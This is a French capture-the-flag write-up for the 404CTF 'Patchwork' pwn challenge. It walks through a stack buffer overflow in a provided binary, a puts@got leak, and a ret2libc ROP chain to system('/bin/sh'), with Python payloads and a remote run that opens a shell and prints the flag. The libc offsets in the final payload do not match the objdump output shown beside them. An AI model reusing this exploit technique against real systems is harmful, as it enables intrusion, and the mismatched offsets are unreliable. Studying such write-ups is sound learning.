

## PWN / Patchwork

<p align="center">
  
</p>


### Look around


Un petit tour sur l'interface du challenge :

```bash
$ nc challenge.404ctf.fr 30690
Bonjour, si vous avez trouvé cet accès, c'est probablement qu'un de nos collaborateurs vous en a parlé.
Veuillez décliner votre identité et votre profession :
hacker
Vous n'êtes pas le bienvenu
```

Pour le moment le serveur prend un input et répond en fonction.
Rien de très évident.


### Analyse statique

```bash
$ checksec recrutement
[*] '/home/maskott/ctf_404_2022/pwn/patchwork/recrutement'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Au niveau des mécanismes de sécurité, le NX et (sûrement) l'ASLR sur le serveur laissent penser qu'il faudra passer par une ROP chain (par ailleurs le challenge fournissant la libc utilisée ... il est fort probable qu'on utilise un ret2libc, ou plutôt ret2plt à cause de l'ASLR).


On peut alors regarder le code du binaire qui est fournit, il n'y a qu'une fonction intéressante :

```c
int main(void)
{
  char user_prof [64];
  char user_info [56];
  char *check;

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_00400788);
  puts(&DAT_004007f8);
  fgets(user_prof,0x32,stdin);
  check = strstr(user_prof,"scientifique");
  if (check == (char *)0x0) {
    puts(&DAT_004008d4);
  }
  else {
    puts(&DAT_00400840);
    fgets(user_info,0x78,stdin);
    puts("Merci, nous reviendrons vers vous sous peu.");
  }
}
```

Intéressant, si notre profession est `scientifique`, nous pourrons alors accéder à une nouvelle fonctionnalité, qui contient une vulnérabilité : la deuxième saisie est stockée dans un buffer `user_info` de 56 octets, mais nous pouvons en saisir 0x78 (120).


### Exploit

Finalement l'exploit est assez classique, après avoir saisi `scientifique` dans le 1er input nous allons pouvoir exploiter la vulnérabilisé du second :

- remplir le buffer
- écraser la sauvegarder de RIP
- obtenir un leak d'une adresse de la libc
- rappeler `main`
- effectuer un deuxième buffer overflow, mais en profitant du leak précédent pour réaliser un `system("/bin/sh")` et avoir un shell.


##### Stack Frame


Juste après avoir saisi le 2e input :

```bash
0x7fffffffdee0:	0x6669746e65696373	0x0000000a65757169 <= 'scientifique'
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x00000000010cb657
0x7fffffffdf20:	0x4141414141414141	0x4242424242424242 <= 2e input
0x7fffffffdf30:	0x4343434343434343	0x4444444444444444
0x7fffffffdf40:	0x000000000040000a	0x0000000000400560
0x7fffffffdf50:	0x00007fffffffe050	0x00007fffffffdee0
0x7fffffffdf60:	0x0000000000400700	0x00007ffff7e0ed0a <= 0x400700 saved RBP / adresse de retour de main dans la libc
0x7fffffffdf70:	0x00007fffffffe058	0x00000001ffffe369
```

Donc en saisissant 10 * 8 octet on réécrit l'adresse de retour de main.


##### Leak

Pour obtenir un leak, on va pouvoir utiliser la fonction `puts`, pratique pour nous afficher un retour et surtout appelée plus haut dans le programme.

A l'initialisation du programme, celui-ci ne sait pas où sont les fonctions importées de la libc (ASLR), pour cela il utilise un mécanisme de résolution :

https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got

Pour faire court, lorsque la fonction est appelée une première fois, son adresse est retrouvée en mémoire, puis stockée. C'est l'offset de `puts` dans la `got` qui pointe vers elle, et `puts` dans la `plt` pointe vers la `got`.

Finalement si on appelle : `puts(puts@got)` on leak l'adresse réelle de puts en mémoire au moment de l'execution.

La libc utilisée par le serveur nous est gentiment fournit, ce qui est pratique, car si l'ASLR charge aléatoirement la libc en mémoire, cette dernière est chargée d'un bloc. Du coup, les offset des différentes fonctions avec la base de la libc restent les mêmes :

`leak_puts - offset_puts_libc = aslr_decalage`


Pour faire tout ça on cherche les offset des fonctions et gadgets nécessaires dans le code du binaire, et on obtient notre premier payload.

```bash
objdump -S recrutement

0000000000400520 <puts@plt>:
  400520:	ff 25 f2 0a 20 00    	jmpq   *0x200af2(%rip)        # 601018 <puts@GLIBC_2.2.5>
  400526:	68 00 00 00 00       	pushq  $0x0
  40052b:	e9 e0 ff ff ff       	jmpq   400510 <.plt>
```


```python
pop_rdi = 0x400763 # pop rdi ; ret
puts_plt = 0x400520
puts_got = 0x601018
main = 0x400647
ret = 0x400506

payload = b""
payload += b"scientifique"
payload += b"A" * (0x32 - 12  - 1) #fill first fgets

payload += b"B" * 0x38
payload += p64(0) #adresse stack
payload += p64(0) #p64(0x400700) # saved rbp
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)
payload += b"B"  * (0x78 - 0x38 - (6 * 8)  - 3) #fill second fgets
```

Avec l'addresse de main en dernière instruction, pour revenir au début et pouvoir renvoyer un second payload.


##### Get a shell

Une fois le leak obtenu :
- récuperer les bons offsets dans la libc
- calculer des décalages pour bypasser l'ASLR
- renvoyer un payload pour faire cette fois un appel à `system`.


Heureusement pour nous, tout est présent et accéssible dans la libc, même la chaîne de caractères `/bin/sh`

```bash

$ objdump -S libc-2.27.so| grep puts

0000000000080970 <_IO_puts@@GLIBC_2.2.5>:

$ objdump -S libc-2.27.so| grep system
000000000004f420 <__libc_system@@GLIBC_PRIVATE>:

$ strings -t x libc-2.27.so | grep "/bin/sh"
 1b3d88 /bin/sh
```

```python
sys_libc = 0x4f550
puts_libc = 0x80aa0
bin_sh_libc = 0x1b3e1a

offset = u64(leak) - puts_libc
sys = offset + sys_libc
bin_sh = offset + bin_sh_libc

payload2 = b"scientifique"
payload2 += b"A" * (0x32 - 12 - 1) #fill third fgets

payload2 += b"B" * 0x38
payload2 += p64(0)
payload2 += p64(0)
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(ret)  # simple ret for stack alignement
payload2 += p64(sys)
payload2 += b"B" * (0x78 - 0x38 - (6*8) )
```

`system` s'attend à trouver une stack alignée sur `0x10`, c'est ce que permet le `ret` avant l'appel final.


```bash
$ python3 recrutement.py REMOTE
[*] '/home/maskott/ctf_404_2022/pwn/patchwork/recrutement'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/maskott/ctf_404_2022/pwn/patchwork/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.404ctf.fr on port 30690: Done
[+] Leak : 0x7fa5dc86d970
b'Votre profil nous int\xc3\xa9resse, veuillez rentrer les informations compl\xc3\xa9mentaires de votre candidature :\nMerci, nous reviendrons vers vous sous peu.\np\xd9\x86\xdc\xa5\x7f\n'
[+] Offset : 0x7fa5dc7ed000
[+] Sys : 0x7fa5dc83c420
[+] /bin/sh : 0x7fa5dc9a0d88
[*] Switching to interactive mode
Bonjour, si vous avez trouvé cet accès, c'est probablement qu'un de nos collaborateurs vous en a parlé.
Veuillez décliner votre identité et votre profession :
Votre profil nous intéresse, veuillez rentrer les informations complémentaires de votre candidature :
Merci, nous reviendrons vers vous sous peu.
$ ls
flag.txt
recrutement
$ cat flag.txt
404CTF{C3_r3CrU73M3N7_N357_P45_53CUr153!}
```
